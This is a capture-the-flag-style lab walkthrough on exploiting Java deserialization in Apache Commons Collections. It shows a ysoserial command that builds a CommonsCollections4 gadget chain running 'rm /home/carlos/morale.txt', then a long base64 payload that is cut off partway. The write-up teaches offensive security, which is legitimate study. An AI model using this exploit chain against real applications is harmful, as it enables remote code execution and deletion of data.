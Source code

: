 # Exploiting Java deserialization with Apache Commons

This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don’t have source code access, you can still exploit this lab using pre-built gadget chains.

To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

So we need to exploit the java serialization vulnerability to gain code execution.

Let’s login using provided creds.

![](https://miro.medium.com/max/770/1*x0XmwZEef3ELiPsfqwqILw.png)

Burp detection

We can see burp was also able to detect the serialized object in the traffic.

Even if burp wasn't able to detect it we should always be vigilant for some patterns appearing in the HTTP traffic.

![](https://miro.medium.com/max/770/1*gCisZGv6OdXCw4JvFyiMZQ.png)

As here we can see the starting character of the base64 encoded java serialized object.

Let’s generate a payload for the apache commons collection library using ysoserial.

```bash
hax-13@ZARB:~$ ysoserial  CommonsCollections4 'rm /home/carlos/morale.txt' | base64

rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBh  
cmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAQm9yZy5hcGFjaGUuY29tbW9u  
cy5jb2xsZWN0aW9uczQuY29tcGFyYXRvcnMuVHJhbnNmb3JtaW5nQ29tcGFyYXRvci/5hPArsQjM  
AgACTAAJZGVjb3JhdGVkcQB+AAFMAAt0cmFuc2Zvcm1lcnQALUxvcmcvYXBhY2hlL2NvbW1vbnMv  
Y29sbGVjdGlvbnM0L1RyYW5zZm9ybWVyO3hwc3IAQG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0  
aW9uczQuY29tcGFyYXRvcnMuQ29tcGFyYWJsZUNvbXBhcmF0b3L79JkluG6xNwIAAHhwc3IAO29y  
Zy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9uczQuZnVuY3RvcnMuQ2hhaW5lZFRyYW5zZm9ybWVy  
MMeX7Ch6lwQCAAFbAA1pVHJhbnNmb3JtZXJzdAAuW0xvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVj  
dGlvbnM0L1RyYW5zZm9ybWVyO3hwdXIALltMb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25z  
NC5UcmFuc2Zvcm1lcjs5gTr7CNo/pQIAAHhwAAAAAnNyADxvcmcuYXBhY2hlLmNvbW1vbnMuY29s  
bGVjdGlvbnM0LmZ1bmN0b3JzLkNvbnN0YW50VHJhbnNmb3JtZXJYdpARQQKxlAIAAUwACWlDb25z  
dGFudHQAEkxqYXZhL2xhbmcvT2JqZWN0O3hwdnIAN2NvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5p  
bnRlcm5hbC54c2x0Yy50cmF4LlRyQVhGaWx0ZXIAAAAAAAAAAAAAAHhwc3IAP29yZy5hcGFjaGUu  
Y29tbW9ucy5jb2xsZWN0aW9uczQuZnVuY3RvcnMuSW5zdGFudGlhdGVUcmFuc2Zvcm1lcjSL9H+k  
htA7AgACWwAFaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7WwALaVBhcmFtVHlwZXN0ABJbTGph  
dmEvbGFuZy9DbGFzczt4cHVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAFz  
cgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVz  
SW1wbAlXT8FurKszAwAGSQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WwAKX2J5dGVj  
b2Rlc3QAA1tbQlsABl9jbGFzc3EAfgAUTAAFX25hbWV0ABJMamF2YS9sYW5nL1N0cmluZztMABFf  
b3V0cHV0UHJvcGVydGllc3QAFkxqYXZhL3V0aWwvUHJvcGVydGllczt4cAAAAAD/////dXIAA1tb  
Qkv9GRVnZ9s3AgAAeHAAAAACdXIAAltCrPMX+AYIVOACAAB4cAAABqzK/rq+AAAAMgA5CgADACIH  
ADcHACUHACYBABBzZXJpYWxWZXJzaW9uVUlEAQABSgEADUNvbnN0YW50VmFsdWUFrSCT85Hd7z4B  
AAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRh  
YmxlAQAEdGhpcwEAE1N0dWJUcmFuc2xldFBheWxvYWQBAAxJbm5lckNsYXNzZXMBADVMeXNvc2Vy  
aWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRTdHViVHJhbnNsZXRQYXlsb2FkOwEACXRyYW5zZm9y  
bQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9z  
dW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxl  
cjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0  
Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2Vy  
aWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApFeGNlcHRpb25zBwAnAQCmKExjb20vc3Vu  
L29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUv  
eG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwv  
aW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGl0ZXJhdG9yAQA1  
```